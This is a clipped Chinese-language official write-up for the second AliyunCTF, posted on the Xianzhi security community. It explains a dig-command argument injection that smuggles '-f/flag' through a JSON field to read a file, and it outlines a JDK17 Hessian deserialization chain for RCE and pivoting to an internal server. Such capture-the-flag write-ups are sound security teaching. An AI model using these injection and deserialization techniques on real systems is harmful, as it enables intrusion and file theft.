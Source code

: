 ```yaml
---
title: 第二届AliyunCTF官方writeup - 先知社区
url: https://xz.aliyun.com/t/14190?u_atoken=783cbca210eabb8ae72893555b0414d3&u_asession=01yw5I9gTTMH8tDfb4zBGT8NIhhsYFgbVD-OQFIESObRe0kCfQfnu60rBXRCfHws43dlmHJsN3PcAI060GRB4YZGyPlBJUEqctiaTooWaXr7I&u_asig=05lxhOP5w9nKU5POCp-MNFyZwcY2WlX-xuKR7B3KGqpC9gqGEjil2in2r_q-Sz8fZMATNTTyOyB3UT8BmsiLZlDPb3mbti1rjyo7FU0Z8cxEAzgSZ7imgETQO3FMFbLiwfUnab5XT21GEtE_1nEv0OyjkD60patMMYs6Qzqf3nXjFg2QMxYs6lyXb1lFWKql56MYNAEfV05gfGyVb02B-UnXDRwwzTjxt7GjcQZbzwx746NG-yvD_j-NV2PD8Hv0zbTyshRhC-sAmNQKf6M536FJGgYN_3Chn25-y37bo9NyV6gx6UxFgdF3ARCQ86jS_u_XR5hatHQVh06VuUZ-D1wA&u_aref=EY7qVbUqUWdu3Z8fcCW2tiHwbvw%3D
clipped_at: 2024-03-26 23:07:39
category: default
tags: 
 - xz.aliyun.com
---
```



# 第二届AliyunCTF官方writeup - 先知社区

# aliyunCTF官方writeup

# Web

## web签到

题目是一个简单的命令参数注入，对于 dig 命令可以用 `-f` 来读取文件

```plain
curl -H "Content-Type:application/json" -X POST --data '{"type":"-f/flag", "domain":"www.aliyunctf.com"}' http://localhost:23000/digHandler
```

## chain17

### 简介

JDK17 下的两条反序列化链. 一条 hessian, 一条原生. 主要考点是 JDK 17 下 JDK 内部的 sink 不能被反射调用, 需要寻找第三方 sink, 同时还要绕过反序列化黑名单.

### 题目流程

题目包含两个服务器, 第一个是开放了 5000 端口的 springboot 服务器(称为 agent), 第二个是开放了 8080 端口的 springboot 服务器(称为server). 只有 agent 对外部访问者开放, 所以参赛者需要先 RCE agent, 再通过 agent 访问 server, 最后 RCE server 读取 flag.

### agent

agent 端提供了一个 hessian 反序列化的入口, 和一个 getter 可以二次反序列化的 Bean 类作为 gadget, 同时启动选项里开放了 atomic 模块:

```plain
CMD ["java", "--add-opens", "java.base/java.util.concurrent.atomic=ALL-UNNAMED", "-jar", "/opt/agent/agent-0.0.1-SNAPSHOT.jar"]
```
